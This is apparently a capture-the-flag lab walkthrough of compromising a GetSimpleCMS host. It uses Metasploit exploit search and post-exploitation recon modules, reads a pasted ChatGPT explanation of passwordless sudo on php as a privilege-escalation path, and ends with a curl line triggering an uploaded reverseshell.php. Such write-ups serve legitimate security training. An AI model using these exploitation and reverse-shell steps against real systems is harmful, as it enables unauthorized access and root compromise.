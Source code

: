 

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![[Pasted image 20241007144838.png]]

This attack is successful and we are now username: www-data, Which allows us to grab the first capture flag
![[Pasted image 20241007145121.png]]

![[Pasted image 20241007145605.png]]

Following attack we execute the command below to identify any other potential paths for privilege escalation
```
run post/multi/recon/local_exploit_suggester
```

![[Pasted image 20241007170158.png]]

Check for sudo powers
```
run post/multi/recon/sudo_commands
```

![[Pasted image 20241007181120.png]]

From ChatGPT:
The sudo configuration you're looking at allows specific users to run certain commands with elevated privileges, typically as the root user or another user. Let's break it down:

| **Field**       | **Explanation**                                                                                                                                   |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Command**     | `/usr/bin/php` – This allows the execution of the PHP interpreter located at this path. Users can run any PHP script with elevated privileges.    |
| **RunAsUsers**  | `ALL` – The command can be run as any user, not just the root user. Users can impersonate any other user when running this command.               |
| **RunAsGroups** | `ALL` – The command can be run with the privileges of any group on the system.                                                                    |
| **Password?**   | `""` (empty) – No password is required when running the command with sudo. This bypasses the normal password prompt.                              |
| **Privesc?**    | `True` – Privilege escalation is allowed, meaning running this command can lead to higher permissions, such as root or another user's privileges. |
|                 |                                                                                                                                                   |

Upload reverseshell.php to data/uploads location

![[Pasted image 20241007184600.png]]

```
curl http://10.129.42.249/data/uploads/reverseshell.php
```

